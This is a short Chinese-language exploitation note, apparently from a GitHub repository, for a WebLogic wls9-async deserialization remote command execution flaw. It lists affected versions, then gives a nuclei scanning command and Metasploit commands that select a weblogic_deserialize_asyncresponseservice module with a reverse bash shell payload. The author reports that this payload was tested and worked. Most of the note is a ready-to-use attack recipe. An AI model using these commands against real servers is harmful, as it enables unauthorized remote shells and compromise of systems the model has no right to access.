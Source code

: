 ## 漏洞概述

WebLogic wls9-async反序列化远程命令执行漏洞

攻击者利用该漏洞，可在未授权的情况下远程执行命令

## 影响范围

```http
Weblogic 12.1.3.0.0
Weblogic 12.2.1.3.0
Weblogic 12.2.1.4.0
```

## POC

```bash
nuclei -tags weblogic -t cves/ -l urls.txt
```

## EXP

```bash
use multi/misc/weblogic_deserialize_asyncresponseservice
set payload cmd/unix/reverse_bash	#target->unix,这个payload实测成功
```

这个模块也适用于Weblogic XMLdecoder反序列化漏洞 (CVE-2017-10271)

